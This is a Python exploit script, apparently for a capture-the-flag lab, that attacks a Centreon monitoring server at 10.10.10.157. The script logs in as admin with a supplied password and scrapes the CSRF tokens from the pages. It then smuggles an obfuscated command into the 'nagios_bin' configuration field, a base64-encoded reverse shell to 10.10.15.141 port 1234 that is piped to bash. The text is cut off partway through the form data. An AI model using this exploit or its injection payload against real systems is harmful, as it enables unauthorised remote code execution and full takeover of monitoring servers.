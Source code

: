 ```python3
#!/usr/bin/python3
# coding: utf-8

import sys
import time
import requests
import signal
import re
import pdb

from pwn import *

def def_handler(sig, frame):
        print("\n[+] Saliendo .. .\n")
        sys.exit(1)

# Crtl+C
signal.signal(signal.SIGINT, def_handler)

# Variables Globales
main_url = "http://10.10.10.157/centreon/index.php"
config_url = "http://10.10.10.157/centreon/main.get.php?p=60901"
rce_url = "http://10.10.10.157/centreon/include/configuration/configGenerate/xml/generateFiles.php"

def makeRequest(password):
# Variable "S" para crear una session con la que poder jugar con peticiones Get/Post en la misma Session
        s = requests.session()
# Variable "R" para arrastrar la Variable anterior "S" para arrastrar la session y poder Trabajar con el "Centreon Token" al hacer la peticion a "MAIN__URL"
        r = s.get(main_url)
# Token en el que filtramos con expresiones Regulares para filtrarlo y pasarlo por cada peticion correctamente
        centreon_token = re.findall(r'type="hidden" value="(.*?)"', r.text)[0]
# Data que Formalizamos (Depende de la propia web)
        login_data = {

        'useralias': 'admin',
        'password': password,
        'submitLogin': 'Connect',
        'centreon_token': centreon_token

        }

        r = s.post(main_url, data=login_data)
# Volvemos a actualizar la variable Centreon_token haciendo una peticion a la url nueva y actualizando el nombre de la variable a new_token
        r = s.get(config_url)

        new_token = re.findall(r'type="hidden" value="(.*?)"', r.text)[6]
# Data que tramitamos para la segunda peticion web y ganar acceso
        data_config_post = {

                'name':'Central',
                'ns_ip_address':'127.0.0.1',
                'localhost[localhost]':'1',
                'is_default[is_default]':'0',
                'ssh_port':'22',
                'init_script':'centengine',
                'nagios_bin':'echo${IFS}YmFzaGMgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTQxLzEyMzQgMD4mMQo=|base64${IFS}-d|bash;',
                'nagiostats_bin':'/usr/sbin/centenginestats',
                'nagios_perfdata':'/var/log/centreon-engine/service-perfdata',
```